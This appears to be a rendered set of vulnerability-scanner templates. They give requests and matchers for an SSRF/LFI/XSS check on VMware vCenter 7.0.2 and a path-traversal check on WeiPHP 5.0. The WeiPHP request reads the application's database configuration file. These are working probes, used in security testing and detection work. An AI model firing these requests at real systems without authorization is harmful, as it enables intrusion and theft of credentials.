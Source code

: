 **Payloads**- path

---

# VMware vCenter - Server-Side Request Forgery/Local File Inclusion/Cross-Site Scripting

## Description

- VMware vCenter 7.0.2.00100 is susceptible to multiple vulnerabilities including server-side request forgery, local file inclusion, and cross-site scripting.
- severity - critical
- tags - ssrf,lfi,xss,oast,vcenter,vmware

## Requests

- Method - GET

### URL

- {{BaseURL}}/ui/vcav-bootstrap/rest/vcav-providers/provider-logo?url=https://{{interactsh-url}}

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

**Type - status**

- status
  1. 200

---

# WeiPHP 5.0 - Path Traversal

## Description

- WeiPHP 5.0 is susceptible to directory traversal attacks.
- severity - high
- tags - weiphp,lfi,cnvd,cnvd2020

## Requests

### Step - 1

```
POST /public/index.php/material/Material/_download_imgage?media_id=1&picUrl=./../config/database.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

"1":1

```
